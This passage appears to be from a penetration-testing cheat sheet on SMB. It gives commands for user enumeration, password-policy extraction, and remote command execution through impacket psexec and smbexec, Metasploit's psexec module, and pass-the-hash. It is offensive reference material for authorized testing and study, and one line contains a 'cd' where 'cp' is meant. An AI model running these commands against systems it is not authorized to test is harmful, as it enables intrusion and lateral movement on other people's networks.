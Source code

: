 {% code title="nmap" overflow="wrap" %}
```bash
nmap -p 445 --script smb-enum-users --script-args smbusername=USER,smbpassword=PASS <IP>
```
{% endcode %}

{% code title="metasploit" %}
```bash
use auxiliary/scanner/smb/smb_enumusers
```
{% endcode %}

### Enumerate Passoword Policies

Extract domain password and lockout policies.

{% code title="rpcclient" %}
```bash
rpcclient -U "username%password" <IP>
> getdompwinfo
```
{% endcode %}

{% code title="enum4linux-ng" %}
```bash
enum4linux-ng -P <IP>
```
{% endcode %}

### Remote Command Execution

Leverage SMB to execute commands on remote systems.

{% code title="psexec.py" %}
```bash
cp /usr/share/doc/python3-impacket/examples/psexec.py .

python3 psexec.py <domain>/<username>:<password>@<IP>
```
{% endcode %}

{% code title="psexec with Metasploit" %}
```bash
use exploit/windows/smb/psexec
set RHOSTS <IP>
set SMBUser <username>
set SMBPass <password>
run
```
{% endcode %}

{% code title="SMBExec" %}
```bash
cd /usr/share/doc/python3-impacket/examples/smbexec.py .

python3 smbexec.py <DOMAIN>/<USER>:<PASS>@<IP>

python3 smbexec.py <DOMAIN>/<USER>@<IP> -hashes <LMHASH>:<NTHASH>

===============================
# Impacket tools

impacket-smbexec <DOMAIN>/<USER>:<PASS>@<IP>
impacket-smbexec <DOMAIN>/<USER>@<IP> -hashes <LMHASH>:<NTHASH>
```
{% endcode %}
